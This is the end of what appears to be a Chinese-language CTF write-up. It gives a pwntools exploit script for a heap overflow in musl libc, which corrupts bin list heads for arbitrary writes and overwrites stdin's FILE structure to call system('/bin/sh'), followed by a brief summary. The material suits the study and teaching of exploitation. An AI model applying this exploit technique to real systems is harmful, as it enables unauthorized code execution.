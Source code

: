 ```python
alloc(0x10, payload, 'Y')   #1
alloc(0x10)                 #3
free(1) # set as non-empty bin

edit(3, p64(binmap - 0x20) * 2)
alloc(0x10)             #1
free(5) # set as non-empty bin

edit(3, p64(brk - 0x10) * 2)
alloc(0x10)             #5
free(7) # set as non-empty bin

# 2. corrupt bin head and get arbitrary pointers
edit(3, p64(bin - 0x10) + p64(stdin - 0x10))
alloc(0x10) #7
alloc(0x50) #9

edit(3, p64(bin - 0x10) + p64(brk - 0x10))
alloc(0x10) #10
alloc(0x50) #11

edit(3, p64(bin - 0x10) + p64(binmap - 0x20))
alloc(0x10) #12
alloc(0x50) #13

# 3. corrupt stdin, binmap and brk
payload  = "/bin/sh\x00"    # stdin->flags
payload += 'X' * 0x20
payload += p64(0xdeadbeef)  # stdin->wpos
payload += 'X' * 8
payload += p64(0xbeefdead)  # stdin->wbase
payload += 'X' * 8
payload += p64(system)      # stdin->write

edit(9, payload) # stdin
edit(11, p64(0xbadbeef - 0x20) + '\n')  # brk
edit(13, 'X' * 0x10 + p64(0) + '\n')    # binmap

# 4. get shell
p.sendlineafter(">", '1')
p.sendlineafter("What is your prefer size? >", '0')

p.interactive()
```
### 5. 总结

本文展示了在 musl libc 环境下，如何利用堆溢出漏洞劫持 bin 链表头部，通过 unbin 修改链表指针实现任意地址写，最后通过 FSOP 得到 shell。此外，还介绍了 musl libc 堆管理器的大致实现、malloc 返回任意堆地址的方法、出题失误以及其修复方法。

### 6. 参考
